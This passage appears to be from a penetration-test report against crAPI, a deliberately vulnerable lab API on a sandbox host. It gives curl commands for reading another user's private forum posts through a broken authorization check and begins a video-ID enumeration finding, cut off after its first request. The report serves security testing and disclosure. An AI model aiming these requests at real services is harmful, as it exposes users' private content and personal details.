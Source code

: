 **Summary:**
- **Vulnerable location:** GET /community/api/v2/community/posts/{postID}
- **Overview:** Horizontal privilege escalation allowing any authenticated user to access other users' private posts
- **Impact:** Unauthorized access to other users' private forum content and personal information
- **Severity:** High

**Prerequisites:** Valid JWT Bearer token (any authenticated user)

**Exploitation Steps:**
1. Create a private post as TestUser1:
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/community/api/v2/community/posts" \
     -H "Content-Type: application/json" \
     -H "Authorization: Bearer [TESTUSER1_TOKEN]" \
     -d '{
       "title": "TestUser1 Private Post", 
       "content": "This is a private post by TestUser1 that should not be accessible to other users"
     }'
   ```

2. Access TestUser1's post using TestUser2's authentication token:
   ```bash
   curl -X GET "https://crapi.sandbox.local:8888/community/api/v2/community/posts/hiH8i5d8sCeWEehQ6f8H9W" \
     -H "Authorization: Bearer [TESTUSER2_TOKEN]"
   ```

**Proof of Impact:**
TestUser2 successfully accessed TestUser1's private post content including:
- Post ID: hiH8i5d8sCeWEehQ6f8H9W
- Title: "TestUser1 Private Post"
- Content: Complete private message content
- Author details: TestUser1's email and profile information
- Creation timestamp: 2025-09-23T19:24:03.985Z

This demonstrates that any authenticated user can read any other user's forum posts regardless of ownership.

---

### AUTHZ-VULN-05: Video Deletion Information Disclosure

**Summary:**
- **Vulnerable location:** DELETE /identity/api/v2/user/videos/{video_id}
- **Overview:** Authentication bypass allowing video enumeration through differential response messages
- **Impact:** Information disclosure enabling attackers to enumerate existing video IDs in the system
- **Severity:** Medium

**Prerequisites:** Valid JWT Bearer token (any authenticated user)

**Exploitation Steps:**
1. Test video deletion with existing video IDs:
   ```bash
   curl -X DELETE "https://crapi.sandbox.local:8888/identity/api/v2/user/videos/1" \
     -H "Authorization: Bearer [USER_TOKEN]"
   ```
